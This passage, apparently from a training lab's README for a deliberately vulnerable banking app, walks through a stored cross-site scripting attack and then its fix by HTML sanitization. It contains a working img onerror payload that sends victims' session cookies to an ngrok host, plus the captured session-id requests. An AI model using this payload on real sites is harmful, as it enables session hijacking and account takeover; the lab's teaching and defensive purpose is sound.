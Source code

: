 As you can see, your server is exposed in http://8350aae8.ngrok.io and you could redirect any request to there in order to get data from other users.
In this case, we will try to get the sid cookie of a user that received our transaction.

3) Send money to any other account with the following message:
```
<img src="http://8350aae8.ngrok.io/image" onerror="this.src='http://8350aae8.ngrok.io/hacked/cookie='+document.cookie" height="1px" width="1px" />
```

4) And then, when the receiver of the money logs in and sees its transaction list, the browser performs the following request:
```
GET http://8350aae8.ngrok.io/hacked?cookie=connect.sid=s%3A_lUKxbsqbksRmFntAgIOK-FB6obJ-x5t.CbSvt1ZZnAOrkscC85JpPTAZYfWf2Vc3dGUN4ykZZnI
```

5) Once the browser has performed that request, you just need to check your ngrok logs to find the sid of your victim:
```
GET /hacked/cookie=connect.sid=s:_lUKxbsqbksRmFntAgIOK-FB6obJ-x5t.CbSvt1ZZnAOrkscC85JpPTAZYfWf2Vc3dGUN4y 502 Bad Gateway
```

Once you get its sid you can perform request on behalf of your victim, for example.

#### Solution:
To solve this, we MUST sanitize the HTML sent before to render it. Angular (and pretty much all frameworks) includes a module to do so in a very easy way.
Once we sanitize the html, we will see how the browser does not send request anymore since that piece of HTML is never rendered but included as a string.

solution checkout:
```
https://github.com/eBorland/bank-hacking/pull/8
```
